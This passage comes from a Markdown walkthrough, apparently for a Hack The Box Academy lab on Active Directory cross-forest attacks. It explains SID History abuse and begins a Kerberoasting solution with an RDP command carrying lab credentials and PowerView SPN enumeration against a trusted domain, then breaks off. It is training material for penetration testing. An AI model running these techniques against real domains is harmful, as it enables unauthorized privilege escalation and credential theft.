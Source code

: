 ### **Attack Concept**
- **Migration scenario**: User moved between forests without proper SID filtering
- **SID retention**: Original domain SIDs preserved in SID History attribute
- **Privilege preservation**: Administrative rights maintained across forest boundaries
- **Trust exploitation**: SID filtering bypass for unauthorized privilege escalation

### **Attack Prerequisites**
- **User migration**: Account moved from Forest A to Forest B
- **SID filtering disabled**: Trust configuration allows external SIDs
- **Administrative privileges**: Original account had elevated rights in source forest
- **Trust authentication**: Ability to authenticate across forest boundary

### **Attack Flow**
```
Forest A (INLANEFREIGHT.LOCAL) → User Migration → Forest B (CORP.LOCAL)
    ↓                                                    ↓
Administrative User                              Migrated User + SID History
    ↓                                                    ↓
Original SID Preserved                          Cross-Forest Admin Access
    ↓                                                    ↓
Retained Privileges                            Unauthorized Escalation
```

---

## 🎯 **HTB Academy Lab Solution**

### **Lab Environment Setup**
```bash
# RDP to Windows attack host
xfreerdp /v:10.129.44.185 /u:htb-student /p:'Academy_student_AD!'
```

### **🎫 Question: "Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer."**

**Complete Attack Solution:**

**Step 1: Initial Enumeration**
```powershell
# RDP connection established, open PowerShell as Administrator
# Navigate to tools directory
cd C:\Tools\
Import-Module .\PowerView.ps1

# Enumerate SPNs in trusted domain
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
# Expected: mssqlsvc account identified
```
